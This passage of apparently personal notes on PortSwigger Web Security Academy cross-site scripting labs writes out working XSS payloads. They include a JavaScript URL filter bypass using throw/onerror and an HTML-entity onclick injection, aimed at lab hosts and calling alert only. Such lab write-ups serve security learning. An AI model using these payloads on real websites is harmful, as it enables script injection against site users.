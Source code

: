 ```bash

Response:

var searchTerms = '\\';
alert(1)//';

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519221102.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519221217.png)

### Reflected XSS in a JavaScript URL with some characters blocked
```bash

# This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent [XSS](https://portswigger.net/web-security/cross-site-scripting) attacks.

# To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function with the string `1337` contained somewhere in the `alert` message.

Add:

&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2B%27%27,{x:%27}

To

https://ac761fb11ea61ba6c0d4032c00ba00aa.web-security-academy.net/post?postId=3

Final:

https://ac761fb11ea61ba6c0d4032c00ba00aa.web-security-academy.net/post?postId=3&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2B%27%27,{x:%27}

```

##### Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```bash

# This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

# To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

%26apos;-alert(1)-%26apos;

Go to: "View post"
Intercept is on
Enter:

Comment:

comment

Name:

name
```